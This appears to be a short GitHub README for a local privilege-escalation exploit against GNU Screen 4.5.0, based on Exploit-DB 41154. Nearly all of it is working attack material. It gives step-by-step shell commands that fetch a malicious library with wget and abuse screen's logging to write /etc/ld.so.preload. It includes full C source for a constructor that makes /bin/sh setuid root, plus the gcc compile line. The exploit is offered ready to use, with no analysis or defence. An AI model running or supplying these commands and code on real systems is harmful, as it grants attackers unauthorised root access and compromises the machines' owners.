 # Priv Esc for Screen 4.5.0
Based on https://www.exploit-db.com/exploits/41154

Based on Screen2Root

Exploit Instructions:
```
cd /tmp
wget http://127.0.0.1/libhax.so    # Make sure libhax.so is in /tmp
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen ls
/bin/sh -p
```
libhax.c code (Compiled version available in repo)
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/bin/sh", 0, 0);
    chmod("/bin/sh", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
Compile libhax.c with gcc
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```
